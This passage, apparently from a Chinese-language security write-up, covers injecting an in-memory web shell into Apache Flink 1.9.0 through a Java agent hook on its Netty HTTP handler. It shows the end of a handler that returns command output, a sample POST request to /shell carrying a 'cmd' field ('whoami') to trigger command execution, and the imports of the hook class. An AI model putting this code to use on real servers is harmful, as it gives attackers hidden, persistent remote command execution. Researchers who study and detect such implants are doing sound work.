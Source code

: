 ```java
                        outputStream.write("<pre>".getBytes());
                        while((a=in.read(b))!=-1){
                            outputStream.write(b);
                        }
                        outputStream.write("</pre>".getBytes());
                        HttpResponseStatus status = new HttpResponseStatus(200, "OK");
                        FullHttpResponse response = new DefaultFullHttpResponse(
                                HTTP_1_1, status, Unpooled.copiedBuffer(outputStream.toByteArray()));
                        response.headers().set(CONTENT_TYPE, "text/plain; charset=UTF-8");
                        ctx.writeAndFlush(response).addListener(ChannelFutureListener.CLOSE);

                    }
                    // HTTP GET
                }else{
                 }
           }

        }
    }

}
```



### 5.3 Flink190

flink1.9.0中，笔者给出的代码在成功hook后，触发命令执行的HTTP是这样的：

```java
POST /shell HTTP/1.1
Host: 192.168.198.128:8081
Content-Type: multipart/form-data; boundary=--------347712004
Content-Length: 98

----------347712004
Content-Disposition: form-data; name="cmd"

whoami
----------347712004--

```

```java
package com.attach.hook;

import com.attach.Agent;
import org.apache.flink.shaded.netty4.io.netty.buffer.ByteBuf;
import org.apache.flink.shaded.netty4.io.netty.buffer.Unpooled;
import org.apache.flink.shaded.netty4.io.netty.channel.ChannelFuture;
import org.apache.flink.shaded.netty4.io.netty.channel.ChannelFutureListener;
import org.apache.flink.shaded.netty4.io.netty.handler.codec.http.*;
import org.apache.flink.shaded.netty4.io.netty.handler.codec.http.multipart.Attribute;
import org.apache.flink.shaded.netty4.io.netty.handler.codec.http.multipart.HttpPostRequestDecoder;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Collections;
import java.util.HashMap;
import java.util.Map;
import org.apache.flink.shaded.netty4.io.netty.handler.codec.http.multipart.InterfaceHttpData;
import org.apache.flink.shaded.netty4.io.netty.util.ReferenceCountUtil;
import org.apache.flink.shaded.netty4.io.netty.channel.ChannelHandlerContext;
import static com.attach.util.FileUtil.IS_WIN;
import static com.attach.util.FileUtil.writeMsg;
```
